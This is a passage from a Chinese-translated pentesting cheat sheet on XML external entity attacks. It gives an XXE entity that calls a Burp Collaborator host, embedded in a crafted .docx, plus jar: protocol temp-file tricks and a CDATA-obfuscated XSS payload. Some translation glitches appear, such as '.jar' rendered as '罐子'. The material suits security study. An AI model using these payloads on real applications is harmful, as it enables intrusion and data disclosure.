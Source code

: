 在您喜欢的文本编辑器 (vim) 中打开 `./unzipped/word/document.xml` 并编辑 **XML 以包含您喜欢的 XXE 有效负载**。我尝试的第一件事往往是 HTTP 请求，如下所示：

```
<!DOCTYPE x [ <!ENTITY test SYSTEM "http://[ID].burpcollaborator.net/"> ]>
<x>&test;</x>
```

这些行应该像这样插入到两个根 XML 对象之间，当然您需要将 URL 替换为可以监视请求的 URL：

![Those lines should be inserted in between the two root XML objects, like thi](https://labs.detectify.com/wp-content/uploads/2021/09/xxe-obscure.png)

剩下的就是**压缩文件以创建恶意 poc.docx 文件**。从我们之前创建的“解压缩”目录中，运行以下命令：

![From the "unzipped" directory that we created earlier, run the following:](https://labs.detectify.com/wp-content/uploads/2021/09/xxe-unzipped.png)

现在将文件上传到您的（希望如此）易受攻击的 Web 应用程序，并在 Burp Collaborator 日志中向黑客之神祈祷。

### Jar: protocol

`jar` 协议仅适用于 **Java 应用程序**。它允许访问 **PKZIP**文件（`.zip`、`.jar`、...）中的文件，并适用于本地和远程文件：

```
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

{% hint style="danger" %}
能够访问 PKZIP 文件中的文件对于通过系统 DTD 文件滥用 XXE 非常有用。**检查 [此部分以了解如何滥用系统 DTD 文件](xxe-xee-xml-external-entity.md#基于错误的系统-dtd）。
{% endhint %}

#### Behind the scenes

1. 它发出 HTTP 请求以加载 zip 存档。 `https://download.host.com/myarchive.zip`
2. 它将 HTTP 响应保存到一个临时位置。 `/tmp/...`
3. 它提取档案。
4. 它读取`file.zip`
5. 它删除临时文件。

请注意，可以在第二步中停止流程。诀窍是在提供文件时永远不要关闭连接。 [这个工具很有用](https://github.com/GoSecure/xxe-workshop/tree/master/24\_write\_xxe/solution)：一个在python`slow_http_server.py`和一个在java`slowserver。罐子`。

一旦服务器下载了你的文件，你需要通过浏览临时目录来找到它的位置。由于是随机的，因此无法提前预测文件路径。
![Jar](https://gosecure.github.io/xxe-workshop/img/74fac3155d455980.png)

{% hint style="danger" %}
在临时目录中写入文件有助于**升级另一个涉及路径遍历的漏洞**（例如本地文件包含、模板注入、XSLT RCE、反序列化等）。
{% endhint %}


### XSS

```markup
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```
